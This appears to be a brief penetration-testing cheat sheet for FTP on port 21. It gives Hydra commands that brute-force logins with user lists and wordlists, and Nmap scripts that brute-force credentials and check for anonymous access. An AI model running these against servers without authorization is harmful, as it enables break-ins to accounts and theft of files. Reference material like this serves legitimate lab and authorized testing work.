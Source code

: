 FTP (File Transfer Protocol) is a server used to share files in a network, is usually located in port 21. 

# Tools

## Hydra
```
hydra -L users_list -P wordlist IP_ADDRESS ftp
hydra -l USER -P wordlist IP_ADDRESS ftp
```
## FTP
```
ftp IP_ADDRESS
> get file -> download a file
```
## Nmap
```
nmap IP_ADDRESS --script ftp-brute --script-args userbd=USERS_LIST -p21
nmap IP_ADDRESS --script ftp-anon -p21
```
